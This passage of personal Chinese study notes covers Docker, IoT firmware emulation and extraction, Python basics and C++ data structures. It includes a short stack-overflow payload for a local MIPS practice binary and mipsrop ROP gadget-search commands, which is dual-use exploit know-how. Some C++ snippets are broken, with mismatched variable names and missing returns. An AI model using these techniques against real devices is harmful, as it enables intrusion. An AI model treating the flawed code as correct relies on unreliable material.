        container_name: huawei-system	#启动container名称
        build:
            context: .       #上下文路径，可以是文件路径，也可以是到链接到 git 仓库的 url。当是相对路径时，它被解释为相对于Compose文件的位置。
            dockerfile: ./system-emu/Dockerfile	#指定构建镜像的 Dockerfile 文件名
        privileged: true	#设置容器的权限位root
        ports:
            - "1234:22"  #指定端口映射,宿主机的端口1234，22是容器的端口

#docker-compose
docker-compose build
构建（重新构建）项目中的服务image

docker-compose up
启动container

docker-compose down
停止和删除容器
```


# IOT

```
sudo apt install libncurses5-dev patch
git clone https://github.com/ReFirmLabs/binwalk
cp $(which qemu-mipsel-static) ./
sudo chroot . ./qemu-mipsel-static test

//环境
sudo apt install qemu-user
sudo apt install libc6-mipsel-cross
sudo mkdir /etc/qemu-binfmt
sudo ln -s /usr/mipsel-linux-gnu /etc/qemu-binfmt/mipsel
//sudo rm /etc/qemu-binfmt/mipsel 删除软链接
sudo apt install binutils-mips-linux-gnu
sudo apt install gcc-mipsel-linux-gnu
mipsel-linux-gnu-gcc

//调试
target remote:1234
set architecture
qemu-mipsel pwn `python2 -c "print 'a'*28+'\xb0\x03\x40\x00'"`
```


```
//重启网配置
sudo /etc/init.d/network-manager restart
//开启网卡（桥接）
sudo apt install ifupdown
sudo ifup br0
//开启网卡
sudo dhclient ens33
//复制文件到远程
scp -r ./squashfs-root root@192.168.184.131:/root/

//抓包
tcpdump -i tap0 -w result.cap
tcpdump -i eth0 host 10.10.1.1
tcpdump -i eth0 dst 10.10.1.20

//ssh参数
-D port
    指定一个本地机器 ``动态的应用程序端口转发. 工作原理是这样的, 本地机器上分配了一个 socket 侦听 port 端口, 一旦这个端口上有了连接, 该连接就经过安全通道转发出去, 根据应用程序的协议可以判断出远程主机将和哪里连接. 将充当 SOCKS服务器. 只有 root 才能转发特权端口. 可以在配置文件中指定动态端口的转发.


```


**手动提取固件**

手动判断文件类型，包含如下步骤：

- "strings|grep"检索文件系统magic签名头；
- “hexdump|grep”检索magic签名偏移；
- “dd|file”确定magic签名偏移处的文件类型。

cramfs 文件系统头部特征字符  0x28cd3d45

squashfs 

分析

```
strings firmware.bin |grep `python2 -c 'print "\x28\xcd\x3d\x45"'`
strings firmware.bin |grep 'sqsh'
strings firmware.bin |grep 'hsqs'
hexdump -C firmware.bin |grep  -n 'hsqs'
dd if=firmware.bin bs=1 count=100 skip=1441936 of=squash
```


**自动提取固件**

binwalk

```
//kali
sudo apt-get install firmware-mod-kit
```


```
binwalk firmware.bin	#扫描固件
binwalk -Me firmware.bin #递归提取固件
binwalk -Me -d 5 firmware.bin	#限制递归提取固件深度
binwalk -I firmware.bin			#显示完整的扫描结果
binwalk -A 70|more				#扫描指定文件中的CPU架构
binwalk --signature firmware.bin #签名分析
binwalk -E firmware.bin			#熵分析
```


```
mipsrop.stackfinder()    寻找栈数据可控的 rop，建立和 a0、a1 寄存器的关系
mipsrop.summary()        列出所有的可用 rop
mipsrop.system()         寻找命令执行的的rop
mipsrop.find(xxx)        查找 find 函数参数的 rop，类似正则匹配
```


CGI：通用网关接口（Common Gateway Interface）是一个Web服务器主机提供信息服务的标准接口。通过CGI接口，Web服务器就能够获取客户端提交的信息，转交给服务器端的CGI程序进行处理，最后返回结果给客户端。

**组成CGI通信系统的是两部分**：一部分是html页面，就是在用户端浏览器上显示的页面。另一部分则是运行在服务器上的Cgi程序。它们之间的通讯方式如下图：


# Python学习


```
add-apt-repository ppa:fkrull/deadsnakes
```


#### 进制转换

```
a=0X415#十六进制
b=0o12#八进制
c=0b101#二进制
print(变量)输出十进制

b='1010' #必须为字符串
b=int(b,2)#二进制转换为十进制


bin()#十进制转换二进制
oct()#十进制转换为八进制
hex()#十进制转换为十六进制
```

#### 复数

```
a+bj#a是实部，b是虚部
```

#### 输入输出

不需要像 C 语言那样还要在使用变量前声明变量的类型

```
变量=input()#输入为字符串
变量=int(input())#输入整数
a,b=map(int,input().split(''))#连续输入多个整数，spilt为隔开的内容
print()#输出之后总会换行，设置end 参数，指定输出之后不再换行
如  ：print(40,'\t',end＝"")
#数据格式化输出与C语言相似，但不完全相同
print("%d%d"，%(变量1，变量2))
```

#### 数据类型转换

| int(x)                 | 将 x 转换成整数类型                                |
| ---------------------- | -------------------------------------------------- |
| float(x)               | 将 x 转换成浮点数类型                              |
| complex(real，[,imag]) | 创建一个复数                                       |
| str(x)                 | 将 x 转换为字符串                                  |
| repr(x)                | 将 x 转换为表达式字符串                            |
| eval(str)              | 计算在字符串中的有效 Python 表达式，并返回一个对象 |
| chr(x)                 | 将整数 x 转换为一个字符                            |
| ord(x)                 | 将一个字符 x 转换为它对应的整数值                  |
| hex(x)                 | 将一个整数 x 转换为一个十六进制字符串              |
| oct(x)                 | 将一个整数 x 转换为一个八进制的字符串              |

#### bytes类型

bytes 类型用来表示一个字节串。“字节串“不是编程术语，是我自己“捏造”的一个词，用来和字符串相呼应。

bytes 是 Python 3.x 新增的类型，在 Python 2.x 中是不存在的。

字节串（bytes）和字符串（string）的对比：

- 字符串由若干个字符组成，以字符为单位进行操作；字节串由若干个字节组成，以字节为单位进行操作。
- 字节串和字符串除了操作的数据单元不同之外，它们支持的所有方法都基本相同。
- 字节串和字符串都是不可变序列，不能随意增加和删除数据。


bytes 只负责以字节序列的形式（二进制形式）来存储数据，至于这些数据到底表示什么内容（字符串、数字、图片、音频等），完全由程序的解析方式决定。如果采用合适的字符编码方式（字符集），字节串可以恢复成字符串；反之亦然，字符串也可以转换成字节串。

说白了，bytes 只是简单地记录内存中的原始数据，至于如何使用这些数据，bytes 并不在意，你想怎么使用就怎么使用，bytes 并不约束你的行为。

bytes 类型的数据非常适合在互联网上传输，可以用于网络通信编程；bytes 也可以用来存储图片、音频、视频等二进制格式的文件。

字符串和 bytes 存在着千丝万缕的联系，我们可以通过字符串来创建 bytes 对象，或者说将字符串转换成 bytes 对象。有以下三种方法可以达到这个目的：

- 如果字符串的内容都是 ASCII 字符，那么直接在字符串前面添加`b`前缀就可以转换成 bytes。
- bytes 是一个类，调用它的构造方法，也就是 bytes()，可以将字符串按照指定的字符集转换成 bytes；如果不指定字符集，那么默认采用 UTF-8。
- 字符串本身有一个 encode() 方法，该方法专门用来将字符串按照指定的字符集转换成对应的字节串；如果不指定字符集，那么默认采用 UTF-8。


encode() 方法为字符串类型（str）提供的方法，用于将 str 类型转换成 bytes 类型，这个过程也称为“编码”

和 encode() 方法正好相反，decode() 方法用于将 bytes 类型的二进制数据转换为 str 类型，这个过程也称为“解码”

#### 运算符

1 ：当`+`用于数字时表示加法，但是当`+`用于字符串时，它还有拼接字符串（将两个字符串连接为一个）的作用

2 : /表示普通除法，使用它计算出来的结果和数学中的计算结果相同，结果为浮点数。

//表示整除，只保留结果的整数部分，舍弃小数部分, 向下取接近商的整数 。

 9//2=4              -9//2=-5

3  ：==与is

== 用来比较两个变量的值是否相等，而 is 则用来比对两个变量引用的是否是同一个对象。

4  逻辑运算符 and or not。在 Python 中，and 和 or 不一定会计算右边表达式的值，有时候只计算左边表达式的值就能得到最终结果。另外，and 和 or 运算符会将其中一个表达式的值作为最终结果，而不是将 True 或者 False 作为最终结果。

5 三目运算符 

```
max = a if a>b else b
```


#### 序列

1 ：序列是一块可存放多个值的连续内存空间，这些值按一定顺序排列，可通过每个值所在位置的编号（称为索引）访问它们。与C语言的数组字符串相似，从0开始引索到n-1，也可索引值是负数，此类索引是从右向左计数，从-n到-1。

2：序列类型包括字符串、列表、元组、集合和字典，这些序列支持以下几种通用的操作，但比较特殊的是，集合和字典不支持索引、切片、相加和相乘操作。

3:切片操作是访问序列中元素的另一种方法，它可以访问一定范围内的元素，通过切片操作，可以生成一个新的序列。

序列实现切片操作的语法格式如下：

name[start : end : step]

其中，各个参数的含义分别是：

​	name：表示序列的名称；

​	start：表示切片的开始索引位置（包括该位置），此参数也可以不指定，会默认为 0，也就是从序列的	开头进行切片；

​	end：表示切片的结束索引位置（不包括该位置），如果不指定，则默认为序列的长度；

​	step：表示在切片过程中，隔几个存储位置（包含当前位置）取一次元素，也就是说，step默认为1；如果 step 的值大于1，则在进行切片去序列元素时，会“跳跃式”的取元素。。如果如果省略设置 step 的值，则最后一个冒号就可以省略。

```
str="1234567890"
print(str[2:6])
print(str[2:8:2])
print(str[::-1])
print(str[-2::-2])
print(str[:-1])
输出为
3456
357
0987654321
97531
123456789
```

4 使用数字 n 乘以一个序列会生成新的序列，其内容为原来序列被重复 n 次的结果。

5 使用 in 关键字检查某元素是否为序列的成员；和 in 关键字用法相同，但功能恰好相反的，还有 not in 关键字，它用来检查某个元素是否不包含在指定的序列中。

```
str="str"
print(‘s’in str)#字符‘s’是否在str中，输出为Ture或False
```

#### 序列内置函数

| 函数        | 功能                                          |
| ----------- | --------------------------------------------- |
| len()       | 计算序列的长度，即返回序列中包含多少个元素。  |
| max()       | 找出序列中的最大元素。                        |
| min()       | 找出序列中的最小元素。                        |
| list()      | 将序列转换为列表。                            |
| str()       | 将序列转换为字符串。                          |
| sum()       | 计算元素和（必须全为数字）。                  |
| sorted()    | 对元素进行排序。                              |
| reversed()  | 反向序列中的元素。                            |
| enumerate() | 将序列组合为一个索引序列，多用在 for 循环中。 |

#### 列表

1

```
listname=[元素1，元素2，……]#元素可以是数字，也可以是字符串
```

通过list函数可以将其他数据类型转换为列表

2：在列表后添加元素

```
listname.append()
listname.extend()
```

extend() 和 append() 的不同之处在于：extend() 不会把列表或者元祖视为一个整体，而是把它们包含的元素逐个添加到列表中。

3

```
listname.insert(index , obj)
其中，index 表示指定位置的索引值。insert() 会将 obj 插入到 listname 列表第 index 个元素的位置。
```

4：删除列表中的单个元素

其中，listname 表示列表名称，index 表示元素的索引值

```
del listname[index]
listname.pop(index)#无引索值时删除最后的元素
listname.remove(元素)#方法只会删除第一个和指定值相同的元素，而且必须保证该元素是存在的。
listname.clear()#删除所有元素
```

del 也可以删除中间一段连续的元素，格式为：

del listname[start : end]

其中，start 表示起始索引，end 表示结束索引。del 会删除从索引 start 到 end 之间的元素，不包括 end 位置的元素。

5:

count()方法

count() 方法用来统计某个元素在列表中出现的次数，

listname.count(obj)

其中，listname 代表列表名，obj 表示要统计的元素。

index() 方法

index() 方法用来查找某个元素在列表中出现的位置（也就是索引）.

index() 的语法格式为：

listname.index(obj, start, end)

其中，listname 表示列表名称，obj 表示要查找的元素，start 表示起始位置，end 表示结束位置。

#### 元组

元组和列表的不同之处在于：

1：列表的元素是可以更改的，包括修改元素值，删除和插入元素，所以列表是可变序列；

2：而元组一旦被创建，它的元素就不可更改了，所以元组是不可变序列。

```
tuplename=(元素1，元素2……)
```

#### 字典

1

字典是一种无序的、可变的序列，它的元素以“键值对（key-value）”的形式存储。

字典类型是 映射类型。

不允许同一个键出现两次。创建时如果同一个键被赋值两次，后一个值会被记住。

2

由于字典中每个元素都包含两部分，分别是键（key）和值（value），因此在创建字典时，键和值之间使用冒号`:`分隔，相邻元素之间使用逗号`,`分隔，所有元素放在大括号`{ }`中。

```
dictname = {'key':'value1', 'key2':'value2', ..., 'keyn':valuen}

其中 dictname 表示字典变量名，keyn : valuen 表示各个元素的键值对。需要注意的是，同一字典中的各个键必须唯一，不能重复。
```

列表和元组是通过下标来访问元素的，而字典不同，它通过键来访问对应的值。因为字典中的元素是无序的，每个元素的位置都不固定，所以字典也不能像列表和元组那样，采用切片的方式一次性访问多个元素。


3：添加

```
dictname[key] = value
```

dictname 表示字典名称，key 表示新的键；value 表示新的值，只要是 Python 支持的数据类型都可以

4：修改

Python 字典中键（key）的名字不能被修改，我们只能修改值（value）。

字典中各元素的键必须是唯一的，因此，如果新添加元素的键与已存在元素的键相同，那么键所对应的值就会被新的值替换掉，以此达到修改元素值的目的。

5:删除

```
del dictname['key']
```

##### 字典方法

dictname.keys() 方法用于返回字典中的所有键（key）；

dictname.values() 方法用于返回字典中所有键对应的值（value）；

dictname.items() 用于返回字典中所有的键值对（key-value）。

dictname. copy() 方法返回一个字典的拷贝，也即返回一个具有相同键值对的新字典。

dictname.update() 方法可以使用一个字典所包含的键值对来更新己有的字典。在执行 update() 方法时，如果被更新的字典中己包含对应的键值对，那么原 value 会被覆盖；如果被更新的字典中不包含对应的键值对，则该键值对被添加进去。

dictname.pop(‘key’) 和dictname. popitem() 都用来删除字典中的键值对，不同的是，pop() 用来删除指定的键值对，而 popitem() 用来随机删除一个键值对。

#### Python set 集合

python的集合，和数学中的集合概念一样，用来保存不重复的元素，即集合中的元素都是唯一的，互不相同。

从内容上看，同一集合中，只能存储不可变的数据类型，包括整形、浮点型、字符串、元组，无法存储列表、字典、集合这些可变的数据类型。

在 Python 中，创建 set 集合可以像列表、元素和字典一样，直接将集合赋值给变量，从而实现创建集合的目的，其语法格式如下：

name = {element1,element2,...}

set() 函数其功能是将字符串、列表、元组、range 对象等可迭代对象转换成集合。


#### 字符串

1

我们需要将字符串和数字拼接在一起，而 Python 不允许直接拼接数字和字符串，所以我们必须先将数字转换成字符串。可以借助 str() 和 repr() 函数将数字转换为字符串。

2

#### 流程

if

```
if 条件：
	语句
elif 条件：
	语句
else：
	语句
```

后面的代码块一定要缩进，同一个代码块内的所有语句都必须拥有相同的缩进量。

pass

 有时候程序需要占一个位置，或者放一条语句，但又不希望这条语句做任何事情，此时就可以通过 pass 语句来实现。

循环

```
while 条件：
	语句（缩进格式相同的多行代码）
```


```
for 迭代变量 in 字符串|列表|元组|字典|集合：
    代码块
```


#### requests模块


```python
import requests  #导入模块

headers = {“”}  #设置请求头
url = {""}		#设置url
data = {""}     #设置参数为要发送到指定 url 的字典、元组列表、字节或文件对象
params = {'key1': 'value1', 'key2': 'value2'} #设置传递url参数
json  = {""}  #设置为要发送到指定 url 的 JSON 对象

r = requests.get(url, params=params, headers=headers, data=data) #发送get请求，并返回请求此响应的请求对象
r = requests.post()	#发送post请求

r.text	#返回响应的内容，unicode 类型数据
r.url	#返回url
r.status_code	#返回http 的状态码

r.close()	#关闭连接
```


#### 正则表达式

在Python中需要通过正则表达式对字符串进⾏匹配的时候，可以使⽤⼀个python自带的模块，名字为re。

正则表达式的大致匹配过程是：
1.依次拿出表达式和文本中的字符比较，
2.如果每一个字符都能匹配，则匹配成功；一旦有匹配不成功的字符则匹配失败。
3.如果表达式中有量词或边界，这个过程会稍微有一些不同。

##### re.match函数


**函数语法**：

```
re.match(pattern, string, flags=0)
```

函数参数说明：

| 参数    | 描述                                                         |
| :------ | :----------------------------------------------------------- |
| pattern | 匹配的正则表达式                                             |
| string  | 要匹配的字符串。                                             |
| flags   | 标志位，用于控制正则表达式的匹配方式，如：是否区分大小写，多行匹配等等。 |

匹配成功 re.match 方法返回一个匹配的对象，否则返回 None。

我们可以使用 group(num) 或 groups() 匹配对象函数来获取匹配表达式。

| 匹配对象方法 | 描述                                                         |
| :----------- | :----------------------------------------------------------- |
| group(num=0) | 匹配的整个表达式的字符串，group() 可以一次输入多个组号，在这种情况下它将返回一个包含那些组所对应值的元组。 |
| groups()     | 返回一个包含所有小组字符串的元组，从 1 到 所含的小组号。     |

1.查找一个匹配项

查找并返回一个匹配项的函数有3个：**search、match、fullmatch**，他们的区别分别是：

search：查找任意位置的匹配项

match： 必须从字符串开头匹配

fullmatch： 整个字符串与正则完全匹配

```
import re
re.research(pattern, string, flags=0)
re.match(pattern, string, flags=0)
re.sub(pattern, repl, string, count=0, flags=0)
```


1. IGNORECASE

**语法：** re.IGNORECASE 或简写为 re.I

**作用：** 进行忽略大小写匹配。

2. ASCII

**语法：** re.ASCII 或简写为 re.A

**作用：** 顾名思义，ASCII表示ASCII码的意思，让 `\w`, `\W`, `\b`, `\B`, `\d`, `\D`, `\s` 和 `\S` 只匹配ASCII，而不是Unicode。

3.DOTALL

**语法：** re.DOTALL 或简写为 re.S

**作用：** DOT表示`.`，ALL表示所有，连起来就是`.`匹配所有，包括换行符`\n`。**默认模式下`.`是不能匹配行符`\n`的**。

4.MULTILINE

**语法：** re.MULTILINE 或简写为 re.M

**作用：** 多行模式，当某字符串中有换行符`\n`，默认模式下是不支持换行符特性的，比如：行开头 和 行结尾，而多行模式下是支持匹配行开头的。

5. VERBOSE

**语法：** re.VERBOSE 或简写为 re.X

**作用：** 详细模式，可以在正则表达式中加注解！

7.DEBUG

**语法：** re.DEBUG

**作用：** 显示编译时的debug信息。


Python startswith() 方法用于检查字符串是否是以指定子字符串开头，如果是则返回 True，否则返回 False。如果参数 beg 和 end 指定值，则在指定范围内检查。

语法

startswith()方法语法：

```
str.startswith(str, beg=0,end=len(string));
```

参数

- str -- 检测的字符串。
- strbeg -- 可选参数用于设置字符串检测的起始位置。
- strend -- 可选参数用于设置字符串检测的结束位置。

返回值

如果检测到字符串则返回True，否则返回False。


#### 其他

##### enumerate() 函数

enumerate() 函数用于将一个可遍历的数据对象(如列表、元组或字符串)组合为一个索引序列，同时列出数据和数据下标，一般用在 for 循环当中。

```
enumerate(sequence, [start=0])
```

参数

- sequence -- 一个序列、迭代器或其他支持迭代对象。
- start -- 下标起始位置。

返回值

返回 enumerate(枚举) 对象。

------

实例

以下展示了使用 enumerate() 方法的实例：

\>>> seasons = ['Spring', 'Summer', 'Fall', 'Winter']
\>>> list(enumerate(seasons))
[(0, 'Spring'), (1, 'Summer'), (2, 'Fall'), (3, 'Winter')]
\>>> list(enumerate(seasons, start=1))    # 小标从 1 开始
[(1, 'Spring'), (2, 'Summer'), (3, 'Fall'), (4, 'Winter')]

普通的 for 循环

i = 0 seq = ['one', 'two', 'three'] for element in seq:    print(i, seq[i])    i += 1

输出结果为：

```
0 one
1 two
2 three
```

###### for 循环使用 enumerate

seq = ['one', 'two', 'three'] for i, element in enumerate(seq):    print(i, element)

输出结果为：

```
0 one
1 two
2 three
```

##### assert

assert 语句，又称断言语句，可以看做是功能缩小版的 if 语句，它用于判断某个表达式的值，如果值为真，则程序可以继续往下执行；反之，Python 解释器会报 AssertionError 错误。

##### ljust函数

ljust() 方法返回一个原字符串左对齐,并使用空格填充至指定长度的新字符串。如果指定的长度小于原字符串的长度则返回原字符串。

```
str.ljust(width, fillchar)
```

ljust() 方法的功能是向指定字符串的右侧填充指定字符，从而达到左对齐文本的目的。

ljust() 方法的基本格式如下：

S.ljust(width[, fillchar])

其中各个参数的含义如下：

- S：表示要进行填充的字符串；
- width：表示包括 S 本身长度在内，字符串要占的总长度；
- fillchar：作为可选参数，用来指定填充字符串时所用的字符，默认情况使用空格。


【例 1】

```
S = 'http://c.biancheng.net/python/'
addr = 'http://c.biancheng.net'
print(S.ljust(35))
print(addr.ljust(35))
```

输出结果为：

```
http://c.biancheng.net/python/    
http://c.biancheng.net            
```

注意，该输出结果中除了明显可见的网址字符串外，其后还有空格字符存在，每行一共 35 个字符长度。

【例 2】

```
S = 'http://c.biancheng.net/python/'addr = 'http://c.biancheng.net'print(S.ljust(35,'-'))print(addr.ljust(35,'-'))
```

输出结果为：

```
http://c.biancheng.net/python/-----
http://c.biancheng.net-------------
```

此程序和例 1 的唯一区别是，填充字符从空格改为‘-’。

##### rjust()方法

rjust() 和 ljust() 方法类似，唯一的不同在于，rjust() 方法是向字符串的左侧填充指定字符，从而达到右对齐文本的目的。

rjust() 方法的基本格式如下：

S.rjust(width[, fillchar])

其中各个参数的含义和 ljust() 完全相同，所以这里不再重复描述。

【例 3】

```
S = 'http://c.biancheng.net/python/'addr = 'http://c.biancheng.net'print(S.rjust(35))print(addr.rjust(35))
```

输出结果为：

```
     http://c.biancheng.net/python/
             http://c.biancheng.net          
```

可以看到，每行字符串都占用 35 个字节的位置，实现了整体的右对齐效果。

【例 4】

```
纯文本复制
S = 'http://c.biancheng.net/python/'addr = 'http://c.biancheng.net'print(S.rjust(35,'-'))print(addr.rjust(35,'-'))
```

输出结果为：

```
-----http://c.biancheng.net/python/
-------------http://c.biancheng.net
```


##### int.from_bytes函数

功能：res = int.from_bytes(x)的含义是把bytes类型的变量x，转化为十进制整数，并存入res中。其中bytes类型是python3特有的类型。
函数参数：int.from_bytes(bytes, byteorder, *, signed=False)。在IDLE或者命令行界面中使用help(int.from_bytes)命令可以查看具体介绍。bytes是输入的变量；byteorder主要有两种：'big'和'little'；signed=True表示需要考虑符号位。
举例说明：int_s  = int.from_bytes(s, byteorder='little', signed=True)，其中s='\xf1\xff'，则输出int_s=-15。分析一下过程，'\x'表示十六进制数，先把'f1'写成二进制数：1111 0001，'ff'同上：1111 1111.由于s的高低位标志是'little'，即'f1'是低位，'ff'是高位，所以正确的顺序应该是'fff1'，即11111111 1111 0001.又因为要考虑符号位，第一位是1，所以s是负数，要进行取反加一才是正确的十进制数（第一位符号位的1不变），可以得到10000000 00001111，写成十进制，就是-15，也就是int_s的结果。上面的例子中，如果signed=False，则无符号位；若byteorder='big'，则输入s的左边是高位，右边是低位。

```
>>> s1 = b'\xf1\xff'
>>> print(int.from_bytes(s1, byteorder='little', signed=True))
-15
>>> print(int.from_bytes(s1, byteorder='big', signed=False))
61951
>>> s2 = b'\xff\xf1'
>>> print(int.from_bytes(s2, byteorder='little', signed=False))
61951
```

##### range

range() 函数返回的是一个可迭代对象（类型是对象），而不是列表类型， 所以打印的时候不会打印列表,

```
range(stop)
range(start, stop[, step])
```

参数说明：

- start: 计数从 start 开始。默认是从 0 开始。例如range（5）等价于range（0， 5）;
- stop: 计数到 stop 结束，但不包括 stop。例如：range（0， 5） 是[0, 1, 2, 3, 4]没有5
- step：步长，默认为1。例如：range（0， 5） 等价于 range(0, 5, 1)

```
>>>range(5)
range(0, 5)
for i in range(5):
    print(i)

0
1
2
3
4
>>> list(range(5))
[0, 1, 2, 3, 4]
>>> list(range(0))
[]
>>>

>>>list(range(0, 30, 5))
[0, 5, 10, 15, 20, 25]
>>> list(range(0, 10, 2))
[0, 2, 4, 6, 8]
>>> list(range(0, -10, -1))
[0, -1, -2, -3, -4, -5, -6, -7, -8, -9]
>>> list(range(1, 0))
```

##### split

split() 方法可以实现将一个字符串按照指定的分隔符切分成多个子串，这些子串会被保存到列表中（不包含分隔符），作为方法的返回值反馈回来。该方法的基本语法格式如下：

str.split(sep,maxsplit)

此方法中各部分参数的含义分别是：

1. str：表示要进行分割的字符串；
2. sep：用于指定分隔符，可以包含多个字符。此参数默认为 None，表示所有空字符，包括空格、换行符“\n”、制表符“\t”等。
3. maxsplit：可选参数，用于指定分割的次数，最后列表中子串的个数最多为 maxsplit+1。如果不指定或者指定为 -1，则表示分割次数没有限制。


```
txt="The Old Gods kindly "
print(txt.split())
print(txt.split(' ',2))
print(txt.split()[3])

['The', 'Old', 'Gods', 'kindly']
['The', 'Old', 'Gods kindly ']
kindly
```


##### format

format() 方法的语法格式如下：

str.format(args)

此方法中，str 用于指定字符串的显示样式；args 用于指定要进行格式转换的项，如果有多项，之间有逗号进行分割。

学习 format() 方法的难点，在于搞清楚 str 显示样式的书写格式。在创建显示样式模板时，需要使用`{}`和`：`来指定占位符，其完整的语法格式为：

{ `[index][ : [ [fill] align] [sign] [#] [width] [.precision] [type] ]` }

注意，格式中用 [] 括起来的参数都是可选参数，即可以使用，也可以不使用。各个参数的含义如下：

- index：指定：后边设置的格式要作用到 args 中第几个数据，数据的索引值从 0 开始。如果省略此选项，则会根据 args 中数据的先后顺序自动分配。

- fill：指定空白处填充的字符。注意，当填充字符为逗号(,)且作用于整数或浮点数时，该整数（或浮点数）会以逗号分隔的形式输出，例如（1000000会输出 1,000,000）。

- align：指定数据的对齐方式，具体的对齐方式如表 1 所示。

  | align | 含义                                                         |
  | ----- | ------------------------------------------------------------ |
  | <     | 数据左对齐。                                                 |
  | >     | 数据右对齐。                                                 |
  | =     | 数据右对齐，同时将符号放置在填充内容的最左侧，该选项只对数字类型有效。 |
  | ^     | 数据居中，此选项需和 width 参数一起使用。                    |

- sign：指定有无符号数，此参数的值以及对应的含义如表 2 所示。

  | sign参数 | 含义                                                         |
  | -------- | ------------------------------------------------------------ |
  | +        | 正数前加正号，负数前加负号。                                 |
  | -        | 正数前不加正号，负数前加负号。                               |
  | 空格     | 正数前加空格，负数前加负号。                                 |
  | #        | 对于二进制数、八进制数和十六进制数，使用此参数，各进制数前会分别显示 0b、0o、0x前缀；反之则不显示前缀。 |

- width：指定输出数据时所占的宽度。

- .precision：指定保留的小数位数。

- type：指定输出数据的具体类型，如表 3 所示。

  | type类型值 | 含义                                                  |
  | ---------- | ----------------------------------------------------- |
  | s          | 对字符串类型格式化。                                  |
  | d          | 十进制整数。                                          |
  | c          | 将十进制整数自动转换成对应的 Unicode 字符。           |
  | e 或者 E   | 转换成科学计数法后，再格式化输出。                    |
  | g 或 G     | 自动在 e 和 f（或 E 和 F）中切换。                    |
  | b          | 将十进制数自动转换成二进制表示，再格式化输出。        |
  | o          | 将十进制数自动转换成八进制表示，再格式化输出。        |
  | x 或者 X   | 将十进制数自动转换成十六进制表示，再格式化输出。      |
  | f 或者 F   | 转换为浮点数（默认小数点后保留 6 位），再格式化输出。 |
  | %          | 显示百分比（默认显示小数点后 6 位）。                 |

##### try except

Python 中，用`try except`语句块捕获并处理异常，其基本语法结构如下所示：

```
try:
  
except KeyError as e:
  
except IndexError as e:
  
except Exception as e:
  
```

该格式中，[] 括起来的部分可以使用，也可以省略。其中各部分的含义如下：

- (Error1, Error2,...) 、(Error3, Error4,...)：其中，Error1、Error2、Error3 和 Error4 都是具体的异常类型。显然，一个 except 块可以同时处理多种异常。
- [as e]：作为可选参数，表示给异常类型起一个别名 e，这样做的好处是方便在 except 块中调用异常类型（后续会用到）。
- [Exception]：作为可选参数，可以代指程序可能发生的所有异常情况，其通常用在最后一个 except 块。


从`try except`的基本语法格式可以看出，try 块有且仅有一个，但 except 代码块可以有多个，且每个 except 块都可以同时处理多种异常。

> 当程序发生不同的意外情况时，会对应特定的异常类型，Python 解释器会根据该异常类型选择对应的 except 块来处理该异常。


```
import hashlib
str = ""
md5 = hashlib.md5() 
md5.update(str.encode('utf-8'))  
value = md5.hexdigest()  #拿到加密字符串
```


# 数据结构

递归算法的时间复杂度本质上是要看: **递归的次数 \* 每次递归中的操作次数**。


**二分查找**

**数组为有序数组**，**数组中无重复元素**，因为一旦有重复元素，使用二分查找法返回的元素下标可能不是唯一的，这些都是使用二分法的前提条件

定义 target 是在一个在左闭右闭的区间里，**也就是[left, right]** 

```c++
int search(vector<int>& nums, int target) {
        int left = 0, right = nums.size() - 1;
        while (left <= right)
        {
            int middle = (left + right) / 2; 
            if ( target > nums[mid])
                left = midddle + 1;
            else if( target <nums[mid])
                right = midddle - 1;
            else
                return middle;
        }      
    }
```

 target 是在一个在左闭右开的区间里，**也就是[left, right)** ，那么二分法的边界处理方式则截然不同。

```c++
int search(vector<int>& nums, int target) {
        int left = 0, right = nums.size() - 1;
        while (left < right)
        {
            int middle = (left + right) / 2; 
            if ( target > nums[mid])
            	left = midddle + 1;
            else if( target <nums[mid])
				right = midddle;
            else
                return middle;
        }     
    }
```


**基于双指针的滑动窗口**

最小滑窗模板：给定数组 nums，定义滑窗的左右边界 i, j，求满足某个条件的滑窗的最小长度。

```

```


最大滑窗模板：给定数组 nums，定义滑窗的左右边界 i, j，求满足某个条件的滑窗的最大长度。

```

```


#### **链表**

```c++
// 单链表
struct ListNode {
    int val;  // 节点上存储的元素
    ListNode *next;  // 指向下一个节点的指针
    // 节点的构造函数
    ListNode() : val(0), next(nullptr) {};
    ListNode(int x) : val(x), next(nullptr) {};
    ListNode(int x, ListNode *next) : val(x), next(next) {};
};
```

**可以设置一个虚拟头结点**，方便操作链表

```
ListNode* dummyHead = new ListNode(0); // 设置一个虚拟头结点
dummyHead->next = head; // 将虚拟头结点指向head
```

**反转链表**

双指针法

```c++
ListNode* reverseList(ListNode* head) {
        ListNode* t = head;		
        ListNode* s = nullptr;
        while(t){
            head = head->next;	//头指针指向下一个节点
            t->next = s;		//反转操作
            s = t;				//更新节点
            t = head;
        }
        return s;
}
```

递归法

```

```


求两个链表交点节点的**指针**，交点不是数值相等，而是指针相等。


#### **哈希表**

C++

常见的三种哈希结构

当我们想使用哈希法来解决问题的时候，我们一般会选择如下三种数据结构。

- 数组
- set （集合）
- map(映射)

这里数组就没啥可说的了，我们来看一下set。

在C++中，set 和 map 分别提供以下三种数据结构，其底层实现以及优劣如下表所示：

| 集合               | 底层实现 | 是否有序 | 数值是否可以重复 | 能否更改数值 | 查询效率 | 增删效率 |
| ------------------ | -------- | -------- | ---------------- | ------------ | -------- | -------- |
| std::set           | 红黑树   | 有序     | 否               | 否           | O(log n) | O(log n) |
| std::multiset      | 红黑树   | 有序     | 是               | 否           | O(logn)  | O(logn)  |
| std::unordered_set | 哈希表   | 无序     | 否               | 否           | O(1)     | O(1)     |

std::unordered_set底层实现为哈希表，std::set 和std::multiset 的底层实现是红黑树，红黑树是一种平衡二叉搜索树，所以key值是有序的，但key不可以修改，改动key值会导致整棵树的错乱，所以只能删除和增加。

| 映射               | 底层实现 | 是否有序 | 数值是否可以重复 | 能否更改数值 | 查询效率 | 增删效率 |
| ------------------ | -------- | -------- | ---------------- | ------------ | -------- | -------- |
| std::map           | 红黑树   | key有序  | key不可重复      | key不可修改  | O(logn)  | O(logn)  |
| std::multimap      | 红黑树   | key有序  | key可重复        | key不可修改  | O(log n) | O(log n) |
| std::unordered_map | 哈希表   | key无序  | key不可重复      | key不可修改  | O(1)     | O(1)     |

std::unordered_map 底层实现为哈希表，std::map 和std::multimap 的底层实现是红黑树。同理，std::map 和std::multimap 的key也是有序的（这个问题也经常作为面试题，考察对语言容器底层的理解）。

当我们要使用集合来解决哈希问题的时候，优先使用unordered_set，因为它的查询和增删效率是最优的，如果需要集合是有序的，那么就用set，如果要求不仅有序还要有重复数据的话，那么就用multiset。

那么再来看一下map ，在map 是一个key value 的数据结构，map中，对key是有限制，对value没有限制的，因为key的存储方式使用红黑树实现的。


#### KMP算法

